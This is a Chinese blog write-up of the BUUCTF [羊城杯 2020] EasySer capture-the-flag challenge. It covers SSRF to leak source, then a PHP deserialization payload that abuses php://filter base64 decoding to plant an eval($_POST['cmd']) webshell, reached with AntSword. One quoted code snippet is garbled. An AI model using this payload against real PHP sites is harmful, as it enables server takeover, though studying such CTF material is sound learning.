




<!--yml
category: 未分类
date: 2022-04-26 14:54:01
-->

# BUUCTF-[羊城杯]Easyser_moyuyyds的博客-CSDN博客

> 来源：[https://blog.csdn.net/m0_52358157/article/details/117827372](https://blog.csdn.net/m0_52358157/article/details/117827372)

# BUU：[羊城杯 2020]EasySer

–菜鸟的第一篇ctf题解

一开始拿到题目一面懵，于是常规的查看robots.txt，很幸运提示要你去访问/star1.php

进入到这个界面接着遇事不决f12得到提示使用一个不安全协议获取ser.php

然后开始了漫长的各种尝试：各种php伪协议，各种百度去搜寻不安全的协议，并没有什么结果。后来想到有一位师傅讲过http相对比于https是不安全的，因为它无状态，无连接，具有简单快速、灵活的特性，通信时候使用明文，也不会对通信方进行确认（重点在这！）
所以可以利用在百度输入框内输入http://127.0.0.1/star1.php来伪造是服务端自己的请求，访问本地获取源码。这个应该算是一个SSRF的一个简单地应用吧。

```
<?php
error_reporting(0);
if ( $_SERVER['REMOTE_ADDR'] == "127.0.0.1" ) {
    highlight_file(__FILE__);
} 
$flag='{Trump_:"fake_news!"}';

class GWHT{
    public $hero;
    public function __construct(){
        $this->hero = new Yasuo;
    }
    public function __toString(){
        if (isset($this->hero)){
            return $this->hero->hasaki();
        }else{
            return "You don't look very happy";
        }
    }
}
class Yongen{ 
    public $file;
    public $text;
    public function __construct($file='',$text='') {
        $this -> file = $file;
        $this -> text = $text;

    }
    public function hasaki(){
        $d   = '<?php die("nononon");?>';
        $a= $d. $this->text;
         @file_put_contents($this-> file,$a);
    }
}
class Yasuo{
    public function hasaki(){
        return "I'm the best happy windy man";
    }
}

?> 
```

***然后就是漫长的代码审计工作了***

序列化代码如下

```
<?php

class GWHT{
    public $hero;
}
class Yongen{ 
    public $file="php://filter/write=string.strip_tags|convert.base64-decode/resource=shell.php";
    public $text="PD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs/Pg==";
}

$a = new GWHT();
$a->hero=new Yongen();
echo serialize($a);
?> 
```

## 知识点：

*   **string.strip.tags-------从字符串中去除HTML、PHP标签，是一个非常非常重要的函数**
*   **filter协议**

* * *

> php://filter
> 是一种设计用来允许过滤器程序在打开时成为流的封装协议。这对于单独具有完整功能的文件函数非常有用，否则就没有机会在读取内容之前将过滤器应用于流之上。
> 该协议语法为：php://filter:/= 比如 php://filter:/resource=http://www.baidu.com
> 使用 php://filter 获取网页内容：<?php u r l = ′ h t t p : / / w w w . p h p f a m i l y . c n ′ ; url = 'http://www.phpfamily.cn'; url=′http://www.phpfamily.cn′;data =
> file_get_contents(‘php://filter/resource=’ . $url); echo $data;
> //输出结果我http://www.phpfamily.cn页面的内容 php://filter 的 参数列表参数功能read读取
> write写入 resource数据来源 read参数值可为 string.strip_tags： 将数据流中的所有html标签清除
> string.toupper： 将数据流中的内容转换为大写 string.tolower： 将数据流中的内容转换为小写
> convert.base64-encode： 将数据流中的内容转换为base64编码 convert.base64-decode：
> 与上面对应解码为典型的文件包含漏洞。我们可以通过构造含有漏洞的语句，查看想要看的代码：
> file=php://filter/convert.base64-encode/resource=index.php
> 。再将得到的base64码解码即可。***

* * *

**得到反序列之后我踩了一个大坑，那就是不知道序列化是要赋值给哪一个变量。**

后来看了一位师傅的wp才知道用Arjun去爆破得知一个参数为path一个参数为c

Payload如下：

```
path=http://127.0.0.1/star1.php&c=O:4:"GWHT":1:{s:4:"hero";O:6:"Yongen":2:{s:4:"file";s:77:"php://filter/write=string.strip_tags|convert.base64-decode/resource=shell.php";s:4:"text";s:40:"PD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs/Pg==";}} 
```

然后使用蚁剑进行连接就可以找到flag了。
连接路径就是原网址加你写入的文件名。